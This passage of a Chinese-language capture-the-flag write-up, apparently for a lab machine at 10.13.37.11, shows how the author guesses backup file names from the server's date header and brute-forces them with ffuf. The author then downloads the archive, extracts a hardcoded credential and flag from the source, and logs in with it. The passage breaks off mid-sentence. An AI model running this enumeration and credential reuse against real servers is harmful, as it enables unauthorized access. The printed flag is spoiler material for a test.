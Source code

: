 首先，先确定服务器时间

```plaintext title="curl -s 10.13.37.11 -I | grep Date"
Date: Wed, 06 Mar 2024 16:07:01 GMT
```

由于当前服务器时间为 `16:07:01` 时间，所以采用 `2024030615` 作为文件前缀

然后开始爆破

```bash title="ffuf -c -w /usr/share/seclists/Fuzzing/4-digits-0000-9999.txt -u http://10.13.37.11/backups/backup_2024030615FUZZ.zip"
[Status: 200, Size: 22071775, Words: 0, Lines: 0, Duration: 0ms]
    * FUZZ: 5716
```

将文件下载下来

```bash
wget http://10.13.37.11/backups/backup_20240306155716.zip
```

将压缩包进行解压，在 `var/www/html/dev/space_dev.py` 中得到

```python
users = {
        "aas": generate_password_hash("AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$}")
        }
```

```plaintext title="Flag"
AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$}
```

## Open Book

在上面得到的脚本中，可以注意到以下信息

```python
users = {
        "aas": generate_password_hash("AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$}")
        }
if __name__ == '__main__':
    print(app)
    print(getattr(app, '__name__', getattr(app.__class__, '__name__')))
    app.run(host='0.0.0.0', port='5000', debug = True)
```

尝试以

```plaintext
username: aas
password: AKERVA{1kn0w_H0w_TO_$Cr1p_T_$$$$$$$$}
```

作为凭据进行访问

![img](img/image_20240306-000651.png)

根据在源码中得到的路由信息
